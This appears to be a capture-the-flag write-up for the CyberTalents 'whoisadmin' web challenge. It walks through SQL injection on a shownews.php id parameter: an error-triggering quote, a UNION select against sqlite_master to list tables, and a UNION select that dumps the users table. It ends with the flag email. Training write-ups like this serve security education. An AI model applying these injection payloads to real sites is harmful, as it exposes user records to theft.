




# Solve who is admin
### https://cybertalents.com/challenges/web/whoisadmin

#### Try to cause error in php prameter
`http://wcamxwl32pue3e6mk873oykcwzy0j6zqdkgxu639-web.cybertalentslabs.com/shownews.php?id=%27`



The error is for `SQLite` 

#### Try to enumerate shema of SQLite DB with sqlite_master
```sql
UNION select * from sqlite_master
```


We found 2 tables nxf8_news , nxf8_users

```sql
UNION select * from nxf8_users
```



We found all users 

In description we need to find admin email

#### Review source code
 

Try to Bruteforce of all users emails 
*All users emails in [emails](emails.txt) file*

flag is `ryan@secret.org`

#### Resources
[sqlite schema](https://www.sqlite.org/schematab.html)

>Find More on ==> github.com/MedhatHassan 